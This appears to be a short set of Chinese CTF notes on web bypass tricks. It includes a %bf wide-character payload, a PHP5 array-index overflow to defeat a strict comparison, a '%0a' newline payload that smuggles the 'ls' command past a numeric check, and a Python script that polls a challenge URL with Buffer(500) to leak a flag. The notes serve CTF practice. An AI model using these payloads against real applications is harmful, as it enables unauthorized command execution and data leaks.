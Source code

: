 可以看看源码

## 宽字符

```
%bf
```

## 列表对比

```
$stuff = $_POST["stuff"];
$array = ['admin', 'user'];
if($stuff === $array && $stuff[0] != 'admin') {
```

这种在php5可以通过溢出来实现对于 ===

```
stuff[4294967296]=admin&stuff[1]=user
```

## 数字检测绕过

用正则匹配是否是数字

```
%0a
```

换行绕过可以在后面外接字符

```
num=123%0als
```

## Node.js沙箱逃逸

```
import requests
import time
url = 'http://19a931b5-2f8a-42c4-b400-20ba417d6a4f.node3.buuoj.cn/?data=Buffer(500)'

while True:
        r = requests.get(url)

        time.sleep(0.1)
        print('trying')
        if 'flag{' in r.text:
            print(r.text)
            break
```

https://blog.csdn.net/SopRomeo/article/details/108963957

## 目录穿越屏蔽../
